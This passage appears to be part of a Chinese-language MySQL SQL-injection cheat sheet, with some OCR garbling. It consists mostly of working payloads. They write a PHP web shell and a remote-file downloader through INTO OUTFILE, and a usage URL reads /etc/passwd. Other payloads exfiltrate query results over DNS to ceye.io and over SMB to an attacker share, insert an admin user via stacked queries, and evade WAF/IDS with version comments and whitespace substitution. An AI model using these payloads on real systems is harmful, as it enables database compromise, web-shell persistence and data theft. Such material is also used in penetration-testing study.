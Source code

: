 写入一个 PHP shell: SELECT '&lt;? system\($\_GET\[\'c\'\]\); ?&gt;' INTO OUTFILE '/var/www/shell.php'; 使用方法: [http://localhost/shell.php?c=cat /etc/passwd](http://localhost/shell.php?c=cat%20/etc/passwd)

写入一个下载器: SELECT '&lt;? fwrite\(fopen\($\_GET\[f\], \'w\'\), file\_get\_contents\($\_GET\[u\]\)\); ?&gt;' INTO OUTFILE '/var/www/get.php' 使用方法: [http://localhost/get.php?f=shell.php&u=http://localhost/c99.txt](http://localhost/get.php?f=shell.php&u=http://localhost/c99.txt)

```text
tips:
- 文件不能用`INTO OUTFILE`覆盖。
- `INTO OUTFILE`必须是查询中的最后一个语句。
- 没有办法对路径名进行编码，所以引号是必需的。
#### 外通道
```

DNS Requests: SELECT LOAD\_FILE\(CONCAT\('\\foo.',\(select MID\(version\(\),1,1\)\),'.ceye.io\'\)\);

```text
关于DNSLOG的使用请移步我的另外一篇文章：[DNSLOG在渗透测试中的使用技巧](http://evilwing.me/2017/12/11/DNSLOG%E5%9C%A8%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%E4%BD%BF%E7%94%A8%E6%8A%80%E5%B7%A7/)
```

SMB Requests： ' OR 1=1 INTO OUTFILE '\\attacker\SMBshare\output.txt

```text
#### 堆查询
根据PHP应用程序使用哪个驱动程序与数据库进行通信，MySQL可以进行堆栈查询。

PDO_MYSQL驱动程序支持堆栈查询。 MySQLi(改进的扩展)驱动程序还通过multi_query()函数支持堆栈查询。
```

Examples: SELECT  _FROM Users WHERE ID=1 AND 1=0; INSERT INTO Users\(username, password, priv\) VALUES \('BobbyTables', 'kl20da$$','admin'\); SELECT_  FROM Users WHERE ID=1 AND 1=0; SHOW COLUMNS FROM Users;

```text
#### 特定于MySQL的代码
MySQL允许你指定感叹号后面的版本号。 注释中的语法仅在版本大于或等于指定的版本号时执行。
```

Examples: UNION SELECT /_!50000 5,null;%00_//_!40000 4,null-- ,_//_!30000 3,null-- x_/0,null--+ SELECT 1/_!41320UNION/_!/_!/_!00000SELECT/_!/_!USER/_!\(/_!/_!/_!\*/\);

第一个例子返回版本; 它使用了一个2列的联合。 第二个例子演示了如何绕过WAF/IDS。

```text
### 模糊和混淆
#### 允许中介字符
以下字符可以用作空格。
```

09 水平标签 0A 新的一行 0B 垂直标签 0C 新页面 0D 回车 A0 不间断的空格 20 空格

```text

```

Example: '%0A%09UNION%0CSELECT%A0NULL%20%23
